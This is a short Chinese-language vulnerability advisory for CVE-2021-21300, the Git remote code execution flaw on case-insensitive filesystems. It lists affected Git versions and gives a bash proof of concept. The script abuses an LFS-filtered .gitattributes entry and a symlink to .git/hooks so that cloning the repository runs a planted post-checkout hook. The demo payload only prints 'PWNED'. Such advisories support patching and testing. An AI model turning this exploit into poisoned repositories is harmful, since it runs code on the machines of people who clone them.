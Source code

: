 # Git for Visual Studio远程执行代码漏洞 CVE-2021-21300

## 漏洞描述

此漏洞影响具有不区分大小写的文件系统的平台，当某些过滤器被使用时（例如Git LFS）。Git可能会被欺骗运行克隆期间的远程代码。

## 漏洞影响

```
v2.17.6
v2.18.5
v2.19.6
v2.20.5
v2.21.4
v2.22.5
v2.23.4
v2.24.4
v2.25.5
v2.26.3
v2.27.1
v2.28.1
v2.29.3
v2.30.2
```

## 漏洞复现

参考文章: https://www.openwall.com/lists/oss-security/2021/03/09/3

## 漏洞POC

```bash
#!/bin/sh

git init delayed-checkout &&
(
  cd delayed-checkout &&
  echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \
  	>.gitattributes &&
  mkdir A &&
  printf '#!/bin/sh\n\necho PWNED >&2\n' >A/post-checkout &&
  chmod +x A/post-checkout &&
  >A/a &&
  >A/b &&
  git add -A &&
  rm -rf A &&
  ln -s .git/hooks a &&
  git add a &&
  git commit -m initial
) &&
git clone delayed-checkout cloned
```